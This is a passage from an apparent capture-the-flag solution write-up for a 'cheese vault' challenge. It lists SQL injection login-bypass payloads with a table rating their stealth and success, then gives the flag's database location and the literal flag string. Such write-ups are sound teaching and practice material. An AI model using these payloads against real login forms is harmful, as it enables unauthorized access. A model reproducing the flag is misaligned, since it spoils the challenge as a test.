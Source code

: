 **Payload 4 (Alternative syntax):**
```
' OR 'a'='a' --
```

**Payload 5 (Union-based, for exploration):**
```
' UNION SELECT 'admin', 'admin' --
```

### Payload Comparison

| Payload | Complexity | Stealth | Success Rate |
|---------|-----------|---------|--------------|
| `admin' OR '1'='1' --` | Low | Low | 100% |
| `' OR 1=1 --` | Very Low | Very Low | 100% |
| `admin'--` | Very Low | Medium | 100% |
| `' OR 'a'='a' --` | Low | Low | 100% |

---

## Flag Retrieval

### Location
- **Table:** `admin_notes`
- **Column:** `content`
- **Row:** `title = 'Master Key Location'`

### Database Query (for reference)
```sql
SELECT * FROM admin_notes WHERE title = 'Master Key Location';
```

### Web UI Location
- **Page:** `/vault`
- **Section:** "Admin Notes" (green background)
- **Card:** Third note card
- **Title:** "Master Key Location"

### Flag Format
```
Exploit3rs{cheese_vault_sql_inject_2025}
```

**Components:**
- Prefix: `Exploit3rs{`
- Identifier: `cheese_vault_sql_inject_2025`
- Suffix: `}`

---
